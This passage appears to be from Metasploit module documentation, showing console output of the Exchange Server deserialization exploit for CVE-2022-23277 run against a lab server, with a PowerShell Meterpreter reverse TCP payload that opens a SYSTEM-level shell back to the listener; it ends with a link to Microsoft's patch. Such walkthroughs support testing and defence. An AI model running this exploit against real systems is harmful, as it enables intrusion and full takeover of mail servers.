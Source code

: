 ```
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.2.986.15 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAACLmD9luiUIToCqtjHJMHTFAAADDlsC
[+] ID value for Inbox folder is AQMkAGMzMmEwZDQyLTJmMmYtNDdlNi04Nzg0LTNiMmNmMTkwZmNjAGIALgAAAwy2SlsLo7NNtRvmAZGoLDABAIuYP2W6JQhOgKq2MckwdMUAAAIBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:63854) at 2022-08-16 15:49:45 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE2019
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x86/windows
meterpreter >
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b
